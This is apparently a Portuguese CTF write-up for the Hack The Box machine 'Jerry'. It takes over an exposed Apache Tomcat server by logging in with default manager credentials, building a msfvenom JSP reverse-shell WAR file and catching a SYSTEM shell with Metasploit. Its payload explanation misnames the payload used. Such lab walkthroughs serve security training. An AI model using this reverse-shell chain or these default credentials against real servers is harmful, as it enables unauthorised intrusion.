






# Hack The Box - Máquina: Jerry

## Resumo
Embora a máquina Jerry seja uma das mais simples no Hack The Box, ela apresenta uma situação realista, já que o Apache Tomcat é frequentemente encontrado exposto e configurado com credenciais comuns ou fracas. Isso proporciona uma oportunidade de exploração e acesso, tornando a máquina Jerry um ambiente educativo para compreender tais cenários.

## Enumeração

### 1. Escaneamento de Portas

Primeiramente devemos utilizar a ferramenta Nmap para verificar as portas abertas, e os serviços rodando nas mesmas, para isso utilizamos o seguinte comando

<code>nmap -A {IP da maquina}</code>

O comando acima é um dos mais básicos do nmap, utilizamos as seguintes opções?

* **-A** é uma opção que ativa um conjunto abrangente de técnicas de varredura agressiva. Essas técnicas incluem detecção de versão, verificação de scripts, detecção de sistema operacional e rastreamento de rota.

Com o comando acima recebemos o seguinte resultado

<pre><code>PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 2012|8|Phone|7 (89%)</code></pre>

### 2. Enumeração de Serviços

Com este retorno conseguimos as seguintes informações

* Porta 8080 aberta, rodando uma versão desatualizada do Tomcat
* O servidor possivelmente está rodando Microsoft windows server 2012

## Exploração

### 1. Explorando o website
 Conforme detectamos o serviço Tomcat rodando no servidor, vamos verificar o serviço em nosso navegador.

 

 Conforme verificado, de fato o servidor está rodando o Tomcat, em uma versão considerada desatualizada.

 ### 2. Acesso inicial
 Ao clicar sobre o botão de 'Manager App' um login de acesso é solicitado pelo site, com alguma pesquisa, conseguimos a informação sobre o login padrão para o serviço, considerando que a instalação do Tomcar em si aparenta estar como a padrão, as chances de alteração da senha padrão são baixas.

| Login | Password |
|-------|----------|
|tomcat | s3cret   |

Com acesso ao gerenciamento da aplicação, podemos passar para a próxima fase.

## Exploitation

### Reverse Shell no Tomcat

Para conseguirmos uma shell reversa no servidor, vamos precisar utilizar um arquivo **WAR** ou *Web Application Resource Files*, este tipo de arquivo é um contêiner de arquivo único que armazena todos os arquivos potenciais necessários para uma aplicação web baseada em Java. Ele pode conter Arquivos Java (.jar), Páginas de Servidor Java (.jsp), Servlets Java, classes Java, páginas da web, arquivos CSS, entre outros. 

O Tomcat Manager facilita a implantação de arquivos WAR com apenas alguns cliques, e como esses arquivos podem conter código Java, eles se tornam um ótimo alvo para obter execução dentro do ambiente.

### Criando o Arquivo com o payload.

Como informado acima, iremos utilizar um arquivo WAR para conseguirmos acesso ao servidor, existem várias maneiras de criar o arquivo, porem neste caso vamos utilizar a ferramenta **msfvenom** para este proposito, e vamos receber a conexão utilizando o **Metasploit**.

Para criar o arquivo utilizaremos o seguinte comando:
<pre><code>msfvenom -p java/jsp_shell_reverse_tcp LHOST={IP de sua maquina} LPORT=1337 -f war > shell_tcp_1337.war</pre></code>
Agora vamos entender melhor o comando acima

* <code>msfvenom</code> Este é o comando que faz parte do framework Metasploit e é usado para gerar payloads maliciosos
* <code>-p windows/shell_reverse_tcp</code> Esta parte do comando define o tipo de payload que você deseja gerar. Nesse caso, é um payload de shell reverso para sistemas Windows.
* <code>LHOST={IP de sua máquina}</code> Aqui, você precisa substituir {IP de sua máquina} pelo endereço IP da sua máquina. Isso indica para onde o payload reverso enviará a conexão.
* <code>LPORT=1337</code> Isso define a porta de escuta na qual seu payload reverso estará ouvindo por uma conexão. Neste exemplo, a porta é definida como 1337, mas você pode ajustá-la conforme necessário.
* <code>-f war</code> Esta opção específica o formato de saída que você deseja para a carga útil. No caso, você está escolhendo o formato "war",
* <code>> shell_tcp_1337.war</code> O operador '>' é usado para redirecionar a saída do comando para um arquivo. Aqui, você está redirecionando o retorno gerado para um arquivo chamado "shell_tcp_1337.war".

### Upload e recebendo o shell

Agora que temos o arquivo com o payload, precisamo apenas realizar o upload utilizando o campo de 'WAR file to deploy'

Agora que realizamos o upload de nosso arquivo, devemos configurar o Metasploit para receber a conexão

Para isso digitamos o seguinte comando

<pre><code>msfconsole -q -x "use multi/handler;set LHOST 10.10.14.128; set LPORT 1337; run"</pre></code>

Então, após a execução do comando, podemos carregar a página com nosso payload, e vamos receber uma conexão reversa como system.

## Post Exploitation

Neste caso, como recebemos o shell com privilégios altos, não será necessário realizar uma elevação de privilégios, basta buscar pelas flags.

Conseguimos encontrar as duas flags em um único arquivo, no caminho:
<pre><code>C:\Users\Administrator\Desktop\flags</code></pre>

Dentro do arquivo "2 for the price of 1.txt"
